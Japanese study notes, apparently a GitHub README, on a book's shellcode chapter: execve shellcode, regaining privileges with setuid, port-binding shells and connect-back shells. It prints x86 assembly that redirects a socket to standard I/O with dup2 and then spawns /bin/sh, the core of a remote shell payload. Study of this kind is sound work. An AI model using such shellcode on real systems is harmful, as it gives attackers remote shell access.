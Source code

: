 # 0x530
シェルを起動するには `bin/sh` を実行するためのシステムコールを呼び出す。

exec_shell.c
exec_shell.s

lea命令は、Load Effective Address命令。メモリ上の場所のアドレス値をレジスタに格納する。

`lea 4(%esp), %eax`
とあったら、「ESPの値に4を足したメモリ位置」のアドレスを、EAXに格納するという意味になる。

```
mov %esp, %eax
add $4, %eax
```

これが同じうごき。
フラグレジスタを変更しないのが嬉しい。(たぶん)

tiny_shell.s
は、 `/bin//sh` + null終端 という文字列を生成して、その先頭ポインタのespをebxに移送している。

drop_privs.c
priv_shell.s

setuid()を使うことで、権限を変更できる。
serresuid()は実ユーザーID、実効ユーザーID、保存されたsetuidを設定できる。

->`priv_shell.s` でおこなっているように、シェルコード内でシステムコールを呼び出せば、好きに権限変更できる。
つまり、実効プログラム内で権限を引き下げていても、シェルコード内で権限を引きあげることが可能。


# 0x540
対話型のroot権限を有したシェルを起動したい！！

ソケット関数は `socketcall()` によってアクセスできる。
システムコール番号は102

Linuxでこれを呼び出す場合、
eaxは102
ebxにはソケット呼び出しのタイプ
ecxにはソケット呼び出しの引数へのポインタ
を格納する。

bind_port.s 
31337万ポートにシェルコードがバインドされコードを実行する。
ただ、その後eaxには新しいソケットファイル記述子が設定しまう。


# 0x541
上記を解決するために、起動したシェルの標準出力、標準入力、標準エラー出力を開設ずみのソケットファイル記述子と差し替えたい。

ファイル記述子を複製するsyscallが `dup2`
システムコール番号は63

```
; dup2(connected socket, {all three standard I/O file descriptors})
  mov ebx, eax      ; move socket FD in ebx
  push BYTE 0x3F    ; dup2  syscall #63
  pop eax
  xor ecx, ecx      ; ecx = 0 = standard input
  int 0x80          ; dup(c, 0)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 1 = standard output
  int 0x80          ; dup(c, 1)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 2 = standard error
  int 0x80          ; dup(c, 2)

; execve(const char *filename, char *const argv [], char *const envp[])
  mov BYTE al, 11   ; execve  syscall #11
  push edx          ; push some nulls for string termination
  push 0x68732f2f   ; push "//sh" to the stack
  push 0x6e69622f   ; push "/bin" to the stack
  mov ebx, esp      ; put the address of "/bin//sh" into ebx, via esp
  push edx          ; push 32-bit null terminator to stack
  mov edx, esp      ; this is an empty array for envp
  push ebx          ; push string addr to stack above null terminator
  mov ecx, esp      ; this is the argv array with string ptr
  int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])

```

`bind_shell_beta.s`
ではeax内の接続済みファイル記述子をebxに移送し、ファイル記述子全てをdupで置き換えている。

# 0x542
dup2の呼び出しを繰り返したい。

bind_shell.s

cmpやjleなどの命令を使ってループを実現(昔みたね)

```
; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx     ; put socket FD in ebx and 0x00000005 in eax
  push BYTE 0x2     ; ecx starts at 2
  pop ecx
dup_loop:
  mov BYTE al, 0x3F ; dup2  syscall #63
  int 0x80          ; dup2(c, 0)
  dec ecx           ; count down to 0 
  jns dup_loop      ; if the sign flag is not set, ecx is not negative
```
これにより、ecxが0,1,2の場合を記述できる。(ecxを2に設定して、decで減らしていっている)

# 0x550
ファイアウォールを使えば、定めている特定ポート以外のコネクションをブロックできる。
そうするとポートバインド型のシェルコードは使用できない。

-> 攻撃者側のIPアドレスにTCPコネクションを開設すればいい！(天才)

connectback_shell.s

中身あまり変わっていない。外向きにコネクションを貼るようにしただけ。
127.0.0.1みたいなアドレスを用いると、nullバイトが含まれるから、以前やったようにスタック上に展開するの大変。

`とても簡単でしょう？` 
